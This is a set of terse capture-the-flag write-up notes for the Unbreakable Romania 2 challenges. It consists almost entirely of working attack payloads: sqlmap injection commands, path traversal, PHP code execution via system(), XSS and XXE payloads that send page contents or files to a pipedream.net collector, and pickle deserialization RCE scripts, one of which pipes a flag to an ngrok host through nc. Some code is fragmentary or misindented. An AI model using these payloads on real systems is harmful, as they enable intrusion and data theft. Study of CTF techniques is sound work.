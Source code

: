 # writeups

## https://blog.kuhi.to/unbreakable-romania-2-writeup

### Small data leak

```
sqlmap -u http://35.198.183.125:30321/user?id=1;
```

```
sqlmap -u http://35.198.183.125:30321/user?id=1 --dbs
```

```
sqlmap -u http://35.198.183.125:30321/user?id=1 -D public --tables
```

```
sqlmap -u http://35.198.183.125:30321/user?id=1 -D public -T 'ctf{70ff919c37a20d6526b02e88c950271a45fa698b037e3fb898ca68295da' --columns
```


### File Crawler

```
http://34.141.25.94:32191/local?image_name=..//..//..//etc/passwd
```

```
http://34.141.25.94:32191/local?image_name=..////tmp//flag
```


### Substitute
```
http://35.246.170.233:31993/?vector=/Admin/e&replace=phpinfo()
```

```
http://35.246.170.233:31993/?vector=/Admin/e&replace=system("ls -l")
```

```
http://35.246.170.233:31993/?vector=/Admin/e&replace=system("ls here_we_dont_have_flag -l")
```

```
http://35.246.170.233:31993/?vector=/Admin/e&replace=system("cat here_we_dont_have_flag/flag.txt")
```


### manual-review
```
<script>
    window.location.href = "https://eoifpwfcq85jqhy.m.pipedream.net"
</script>
```

### syntax check

burpsuite
```
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY exfiltrate SYSTEM "/etc/passwd">
]>
<foo>&exfiltrate;</foo>
```

```
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY exfiltrate SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/flag">
]>
<foo>&exfiltrate;</foo>
```
### Under Construction
https://github.com/ticarpi/jwt_tool
```
python3 jwt_tool.py -t http://35.198.93.134:30791/api/app/admin -rc
"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MTIsImlhdCI6MTYzNTkzNjY4OCwiZ
XhwIjoxNjM2MDIzMDg4fQ.tQ2KlBU8tI5V1Akiqhwy2LSEOF9oBTvnYFs_xgwro04" -C -d
~/sss.txt 
```
https://jwt.io/

### Downloader v1

ngrok needed

ngrok http 7777

nc - lvnp 7777

https://eoifpwfcq85jqhy.m.pipedream.net/test.php --post-file '/var/www/html/flag.php'


###  Framable
```
<script>
    let html = document.body.innerHTML;
    window.location.href = "https://eoifpwfcq85jqhy.m.pipedream.net?bob=" + btoa(html)
</script>
```
atob('')

### alfa-cookie

```
import requests
import pickle
from pwn import *
url = "http://35.198.93.134:30049/dashboard"
    class RCE:
        def __reduce__(self):
        cmd = ('cat flag | nc 2.tcp.ngrok.io 17855')
        return os.system, (cmd,)
        
payload = pickle.dumps(RCE(), protocol=2)
print(payload)
key = len(payload) * "A"
auth_cookie = xor(payload, key).hex()

r = requests.get(url, cookies={"key": key, "auth_cookie": auth_cookie})
```

https://blog.kuhi.to/unbreakable-romania-2-writeup

### Rundown
```
curl -X POST http://35.246.170.233:32274/ > o.html
```

```
import pickle as cPickle
import base64
import os
import string
import requests
import time
class Exploit(object):
    def __reduce__(self):
        return (eval, ('eval(open("flag","r").read())', ))
def sendPayload(p):
    newp = base64.urlsafe_b64encode(p).decode()
    headers = {'Content-Type': 'application/T3jv1l'}
    r = requests.post("http://34.107.45.139:30396/",headers=headers,data=newp)
    return r.text
    
payload_dec = cPickle.dumps(Exploit(), protocol=2)
print("ctf{" + sendPayload(payload_dec).split("ctf{")[1].split("}")[0] +"}")
```
